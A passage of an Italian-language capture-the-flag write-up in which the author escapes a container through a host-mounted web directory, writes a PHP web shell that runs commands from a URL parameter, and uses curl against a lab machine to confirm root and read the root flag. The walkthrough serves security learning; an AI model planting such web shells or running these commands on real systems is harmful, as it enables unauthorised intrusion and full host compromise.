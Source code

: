 ```
[...]
# ls -la /root/
total 20
drwx------ 1 root root 4096 Oct 19  2018 .
drwxr-xr-x 1 root root 4096 May 29 04:44 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root  169 Oct 19  2018 .wget-hsts
# 
```
Verificando i filesystem montati troviamo che c'è la cartella ```/development``` montata sul filesystem dell'host e che al suo interno c'è la home del web server, con permessi di scrittura per ```root``` 
```
[ dalla rev shell ]
# mount -v
[...]
/dev/sda2 on /development type ext4 (rw,relatime)
/dev/sda2 on /etc/resolv.conf type ext4 (rw,relatime)
/dev/sda2 on /etc/hostname type ext4 (rw,relatime)
/dev/sda2 on /etc/hosts type ext4 (rw,relatime)
[...]
# ls -ld /development/html/
drwxr-xr-x 6 root root 4096 May 25 11:37 /development/html/
# 
```
Creiamo una pagina php che esegue una ```system()``` per verificare l'utenza con cui gira il webserver
```
[ dalla rev shell ]
# cd /development/html/
# echo '<?php system($_GET[0]); ?>' > revshell.php
# cat revshell.php
<?php system($_GET[0]); ?>
```
Verifichiamo dal nostro PC con quale utente sta girando il web server
```
$ curl -vvv http://192.168.56.102/revshell.php?0=id
[...]
uid=0(root) gid=0(root) groups=0(root)
* Connection #0 to host 192.168.56.102 left intact
```
Siamo root e a questo punto prendiamo la flag
```
$ curl -vvv http://192.168.56.102/revshell.php?0=cat%20/root/root.txt
[...]
82a893ff69ea0c810af466152ea87eae
* Connection #0 to host 192.168.56.102 left intact
```
Flag di root **82a893ff69ea0c810af466152ea87eae**
